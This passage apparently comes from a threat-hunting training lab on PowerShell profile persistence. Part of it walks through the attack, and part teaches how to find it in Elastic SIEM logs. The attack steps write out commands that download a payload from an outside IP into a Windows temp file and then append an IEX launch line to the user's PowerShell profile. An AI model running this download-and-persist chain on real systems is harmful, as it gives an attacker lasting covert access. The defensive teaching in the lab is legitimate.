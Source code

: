 
7. Retrieve the payload from the malicious server by entering the following command:
PS C:\Users\trainee> (Invoke-webrequest -URI "http://199.63.64.51:8000/powershell_attack.txt").Content | Out-File -FilePath "C:\Windows\Temp\launch.bat"



An attacker completes this file transfer activity during an active session, before leaving the machine. This ensures the attacker has continued access.


8. Prepare the persistence command to add to the profile by entering the following:
PS C:\Users\trainee> $string = 'Start-Process -FilePath "powershell" -ArgumentList "-noprofile -command `"IEX(GC C:\Windows\Temp\launch.bat -Raw)`""'



9. Add the command to the profile with the following command:
PS C:\Users\trainee> $string | Out-File -FilePath $profile -Append



10. Type exit to close the current PowerShell session and open a new session to trigger the persistence.


11. Return to the VM kali-hunt to view the new session that is created.


Since the persistence is triggered by opening a PowerShell session, an attacker can now maintain access to the machine, but this technique is not invisible. Evidence of such unusual activity may be visible in system logs if the mission partner has enabled the appropriate logging and threat detection mechanisms.


Detect PowerShell Profile Persistence


Move to the VM win-hunt to display the traces of persistence in the logs located on a central SIEM.


Workflow


1. Log in to the VM win-hunt with the following credentials
Username: trainee
Password: CyberTraining1!



2. Open the bookmark for Discover - Elastic in the browser Chrome and enter the following credentials when prompted:
Username: trainee@jdmss.lan
Password: CyberTraining1!



3. Find evidence of PowerShell processes created by other PowerShell processes by entering the following search terms in the query bar:
event.code:1 and process.executable :*powershell.exe and process.parent.executable :*powershell.exe

![image](https://github.com/user-attachments/assets/45543e9a-b1e8-458d-9f0a-fea30f68488e)


The command line of the process created in step 3 is the persistence command that was downloaded from the malicious machine. Figure 12.1-2, below, displays the plaintext malicious payload that the Unicorn tool created. This type of code is unusual when compared to the normal administrative functions that a Windows system administrator might employ PowerShell to do. It is even more unusual as an automatic block of code executed at the beginning of every PowerShell session.
